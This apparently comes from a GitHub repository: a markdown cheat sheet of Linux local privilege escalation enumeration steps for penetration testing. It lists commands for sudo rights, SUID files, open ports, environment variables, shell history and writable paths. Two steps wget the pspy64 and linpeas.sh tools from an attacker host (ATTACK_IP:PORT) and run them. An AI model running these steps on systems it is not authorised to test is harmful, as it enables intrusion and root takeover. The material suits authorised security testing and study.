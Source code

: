 # Local Privilege Escalation LPE Enumeration Methodology

### 1) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh

7) Interesting groups of the current user

        id

8) Environment Variables

        env

9) Command history

        history

        cat /home/user/.bash_history

11) Writeable files and directories of the current user

        find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

12) Chech the current user's PATH variable contents

        echo $PATH

13) World-writeable files and directories

        find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
        find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

